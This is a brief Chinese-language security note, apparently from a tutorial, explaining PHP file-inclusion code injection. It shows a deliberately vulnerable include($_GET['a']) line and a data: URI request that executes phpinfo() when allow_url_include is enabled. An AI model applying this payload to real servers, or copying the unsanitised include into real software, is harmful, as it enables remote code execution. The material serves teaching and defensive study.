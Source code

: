 
# PHP

当文件包含函数（include、include_once、require、require_once）中包含输入变量时，可能导致代码注射。  
条件：allow_url_include=On，PHP Version>=5.2.0  
demo code:
`<!--?phpinclude($_GET['a']);?-->`
访问：`http://127.0.0.1/demo.php?a=data:text/plain,%3C?php%20phpinfo%28%29;?%3E`，即 `http://127.0.0.1/demo.php?a=data:text/plain,<?php phpinfo();?>`，可执行 `phpinfo()`